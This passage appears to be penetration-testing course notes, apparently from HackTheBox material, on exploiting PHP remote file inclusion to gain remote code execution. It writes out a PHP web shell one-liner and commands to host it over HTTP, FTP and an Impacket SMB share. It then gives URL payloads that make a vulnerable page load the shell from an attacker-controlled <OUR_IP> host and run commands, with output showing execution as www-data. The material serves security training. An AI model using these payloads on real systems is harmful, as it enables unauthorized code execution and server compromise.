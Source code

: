 Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

### Remote Code Execution with RFI
Creating an malicious script...
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### HTTP
 ``` 
MetricCode@htb[/htb]$ sudo python3 -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
```
Running the script;
```
:http://example.com/index.php?language=http://<OUR_IP>:1111/shell.php&cmd=id
```
#### FTP
 We can start a basic FTP server with Python's pyftpdlib, as follows:
 ```
 MetricCode@htb[/htb]$ sudo python -m pyftpdlib -p 21
[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
 ```
 
 Execution...
 ```
 :http://example.com/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
 ```
 By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
 
 ```
 MetricCode@htb[/htb]$ curl 'http://example.com/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
 ```
#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using Impacket's smbserver.py, which allows anonymous authentication by default, as follows:
```
MetricCode@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, we can include our script by using a UNC path (e.g. \\<OUR_IP>\shell.php), and specify the command with (&cmd=whoami) as we did earlier:
```
:http://example.com/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami
```

